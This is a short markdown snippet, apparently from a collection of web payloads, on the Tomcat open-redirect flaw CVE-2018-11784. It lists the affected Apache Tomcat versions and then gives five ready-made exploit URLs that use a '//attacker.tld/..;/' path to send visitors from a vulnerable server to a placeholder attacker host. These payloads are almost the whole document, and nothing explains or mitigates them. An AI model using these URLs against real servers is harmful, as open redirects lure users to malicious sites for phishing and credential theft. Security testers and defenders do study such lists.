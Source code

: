 ### Apache Tomcat Open Redirect
#### CVE-2018-11784
Versions Affected:  
7.0.23 to 7.0.90  
8.5.0 to 8.5.33  
9.0.0.M1 to 9.0.11

```
http://host.tld//attacker.tld/..;/<existing_folder>
http://host.tld//attacker.tld/..;/docs/config
http://host.tld//attacker.tld/..;/examples/jsp
http://host.tld//attacker.tld/..;/manager/images
http://host.tld//attacker.tld/..;/host-manager/images
```